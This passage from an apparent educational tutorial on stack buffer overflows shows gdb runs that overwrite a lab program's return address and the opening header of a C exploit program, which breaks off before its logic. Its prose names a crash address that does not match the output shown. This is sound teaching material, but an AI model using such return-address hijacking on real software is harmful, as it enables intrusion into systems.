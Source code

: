     (gdb) run 123456789012345678901234567890123456789012345678900123456789
        Starting program: /home/ron/StackVuln 123456789012345678901234567890123456789012345678900123456789
        The message was: 123456789012345678901234567890123456789012345678900123456789
        Program completed normally!

        Program received signal SIGILL, Illegal instruction.
        0xb7ed3f00 in __libc_start_main () from /lib/tls/libc.so.6

    (gdb) run 1234567890123456789012345678901234567890123456789001234567890123
        Starting program: /home/ron/StackVuln 1234567890123456789012345678901234567890123456789001234567890123
        The message was: 1234567890123456789012345678901234567890123456789001234567890123
        Program completed normally!

        Program received signal SIGSEGV, Segmentation fault.
        0x33323130 in ?? ()

Note the address that it crashed at: 0x38373635. Remembering ascii, we know that 0x33 is \'3\', 0x32 is \'2\', 0x31 is \'1\', and 0x30 is \'0\'. That means that the return address was overwritten by the 0123. This theory can be tested by changing those characters to AAAA (\'A\' is 0x41, so the return address will likely be 0x41414141):

        Starting program: /home/ron/StackVuln 123456789012345678901234567890123456789012345678900123456789AAAA
        The message was: 123456789012345678901234567890123456789012345678900123456789AAAA
        Program completed normally!

        Program received signal SIGSEGV, Segmentation fault.
        0x41414141 in ?? ()

The expected result is confirmed!

## The Exploit {#the_exploit}

To make this work well, I removed the display line from the program. Printing the shellcode to the terminal made things ugly.

While I used my old code for the vulnerable program, I re-wrote the exploit from scratch to make it simpler, so that it doesn\'t require a nop-slide (See below). Here is the program that exploits the vulnerable program above, with comments:

        /**
         * Name: Stackexploit.c
         * Author: Ronald Bowes
         * Date: March 13, 2007
         * To compile: gcc Stackexploit.c -o Stackexploit
         * Requires: The vulnerable program, called "StackVuln"
         *
         * Purpose: This code, originally from Hacking: Art of exploitation,
         * exploits a program with a stack overflow in a 40 character buffer
         * by writing 64 characters to it.
         */
        #include <stdlib.h>
        #include <string.h>
        #include <unistd.h>
